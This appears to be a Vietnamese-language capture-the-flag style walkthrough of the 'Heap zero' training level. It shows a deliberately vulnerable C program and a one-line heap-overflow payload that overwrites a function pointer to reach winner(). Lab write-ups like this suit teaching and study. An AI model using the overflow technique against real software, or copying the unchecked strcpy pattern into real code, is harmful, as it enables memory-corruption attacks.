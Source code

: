 # Heap zero
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

Đầu tiên, chương trình cấp phát hai khối heap riêng biệt, một khối lớn 0x40 hay 64 byte và khối còn lại chỉ 4 byte (tạm gọi là ptr0 và ptr1). Sau đó, nó đặt ptr1 bằng hàm `nowinner`. Sau đó, nó in giá trị của ptr0 và ptr1 (vì vậy đó là nơi xuất phát hai địa chỉ heap của chúng ta). 
Tiếp tục sao chép dữ liệu đầu vào mà chúng ta đã nhập thông qua đối số cho ptr0 nhưng lại không kiểm tra điều kiện nhập vào, điều này có thể gây ra lỗi tràn heap. Tiếp tục nó thực thi địa chỉ được trỏ bởi ptr1.
Do vậy chúng ta sẽ ghi đè giá trị của `ptr1` cho hàm `winner`.
Khi chạy chương trình ta thấy ptr0 đang ở vị trí 0x56c08160 và ptr1 đang ở vị trí 0x56c081b0
Mà 0x56c081b0 - 0x56c08160 = 0x50
Do đó chúng ta cần ghi đè 0x50 bytes và địa chỉ của hàm winner
Địa chỉ này được tìm được với :
```bash
$    objdump -D heap0 | grep winner
080484b6 <winner>:
080484e1 <nowinner>:
```

cuối cùng ta có script exploit
```bash
$    ./heap0 `python -c 'print "0"*0x50 + "\xb6\x84\x04\x08"'`
data is at 0x98ac160, fp is at 0x98ac1b0
level passed
```